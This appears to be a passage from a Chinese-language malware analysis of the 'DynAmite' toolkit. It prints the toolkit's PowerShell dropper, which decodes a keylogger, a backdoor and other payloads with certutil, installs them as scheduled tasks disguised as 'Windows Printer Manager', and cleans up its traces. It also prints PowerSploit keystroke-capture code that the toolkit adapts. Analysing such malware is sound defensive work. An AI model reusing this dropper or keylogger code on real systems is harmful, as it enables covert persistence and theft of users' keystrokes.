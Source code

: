 ```
C:Windowsdynakey.exe
C:Windowsdynascr.exe
#cleanup temp folder
Remove-Item "C:WindowsTemp*"
$loot = ($env:LOCALAPPDATA + "dyna"); md $loot
certutil -decode res.crt ($loot + "res"); certutil -decode kl.crt ($loot + "kl.exe"); certutil -decode st.crt ($loot + "st.exe");  certutil -decode cry.crt ($loot + "cry.exe"); certutil -decode t1.crt ($env:TEMP + "t1.xml"); certutil -decode t2.crt ($env:TEMP + "t2.xml"); certutil -decode t3.crt ($env:TEMP + "t3.xml"); certutil -decode t4.crt ($env:TEMP + "t4.xml"); certutil -decode t5.crt ($env:TEMP + "t5.xml"); certutil -decode bd.crt C:ProgramDatabd.exe
schtasks.exe /create /TN "MicrosoftWindowsWindows Printer Manager1" /XML ($env:TEMP + "t1.xml")
schtasks.exe /create /TN "MicrosoftWindowsWindows Printer Manager2" /XML ($env:TEMP + "t2.xml")
schtasks.exe /create /TN "MicrosoftWindowsWindows Printer Manager3" /XML ($env:TEMP + "t3.xml")
schtasks.exe /create /TN "MicrosoftWindowsWindows Printer Manager4" /XML ($env:TEMP + "t4.xml")
schtasks.exe /create /TN "MicrosoftWindowsWindows Printer Manager5" /XML ($env:TEMP + "t5.xml")
schtasks.exe /run /TN "MicrosoftWindowsWindows Printer Manager1"
schtasks.exe /run /TN "MicrosoftWindowsWindows Printer Manager2"
schtasks.exe /run /TN "MicrosoftWindowsWindows Printer Manager3"
schtasks.exe /run /TN "MicrosoftWindowsWindows Printer Manager4"
schtasks.exe /run /TN "MicrosoftWindowsWindows Printer Manager5"
Remove-Item ($env:TEMP + "*.xml") -Recurse –Force
```

“DynAmite KL”变种是该套件的键盘记录器组件，但其直接来源于对老版本PowerSploit的Get-Keystrokes函数的改造升级。以下是对老版本Get-Keystrokes以及“DynAmite KL“代码的比较，从中我们可以看出后者对变量位置及类型进行了修改。

Get-Keystrokes代码：



```
$LeftShift    = ($ImportDll::GetAsyncKeyState([Windows.Forms.Keys]::LShiftKey) -band 0x8000) -eq 0x8000
$RightShift   = ($ImportDll::GetAsyncKeyState([Windows.Forms.Keys]::RShiftKey) -band 0x8000) -eq 0x8000
$LeftCtrl     = ($ImportDll::GetAsyncKeyState([Windows.Forms.Keys]::LControlKey) -band 0x8000) -eq 0x8000
$RightCtrl    = ($ImportDll::GetAsyncKeyState([Windows.Forms.Keys]::RControlKey) -band 0x8000) -eq 0x8000
$LeftAlt      = ($ImportDll::GetAsyncKeyState([Windows.Forms.Keys]::LMenu) -band 0x8000) -eq 0x8000
$RightAlt     = ($ImportDll::GetAsyncKeyState([Windows.Forms.Keys]::RMenu) -band 0x8000) -eq 0x8000
$TabKey       = ($ImportDll::GetAsyncKeyState([Windows.Forms.Keys]::Tab) -band 0x8000) -eq 0x8000
$SpaceBar     = ($ImportDll::GetAsyncKeyState([Windows.Forms.Keys]::Space) -band 0x8000) -eq 0x8000
$DeleteKey    = ($ImportDll::GetAsyncKeyState([Windows.Forms.Keys]::Delete) -band 0x8000) -eq 0x8000
$EnterKey     = ($ImportDll::GetAsyncKeyState([Windows.Forms.Keys]::Return) -band 0x8000) -eq 0x8000
$BackSpaceKey = ($ImportDll::GetAsyncKeyState([Windows.Forms.Keys]::Back) -band 0x8000) -eq 0x8000
$LeftArrow    = ($ImportDll::GetAsyncKeyState([Windows.Forms.Keys]::Left) -band 0x8000) -eq 0x8000
$RightArrow   = ($ImportDll::GetAsyncKeyState([Windows.Forms.Keys]::Right) -band 0x8000) -eq 0x8000
$UpArrow      = ($ImportDll::GetAsyncKeyState([Windows.Forms.Keys]::Up) -band 0x8000) -eq 0x8000
$DownArrow    = ($ImportDll::GetAsyncKeyState([Windows.Forms.Keys]::Down) -band 0x8000) -eq 0x8000
$LeftMouse    = ($ImportDll::GetAsyncKeyState([Windows.Forms.Keys]::LButton) -band 0x8000) -eq 0x8000
$RightMouse   = ($ImportDll::GetAsyncKeyState([Windows.Forms.Keys]::RButton) -band 0x8000) -eq 0x8000
if ($LeftShift -or $RightShift) {$LogOutput += '[Shift]'}
if ($LeftCtrl  -or $RightCtrl)  {$LogOutput += '[Ctrl]'}
if ($LeftAlt   -or $RightAlt)   {$LogOutput += '[Alt]'}
if ($TabKey)       {$LogOutput += '[Tab]'}
if ($SpaceBar)     {$LogOutput += '[SpaceBar]'}
if ($DeleteKey)    {$LogOutput += '[Delete]'}
if ($EnterKey)     {$LogOutput += '[Enter]'}
if ($BackSpaceKey) {$LogOutput += '[Backspace]'}
if ($LeftArrow)    {$LogOutput += '[Left Arrow]'}
```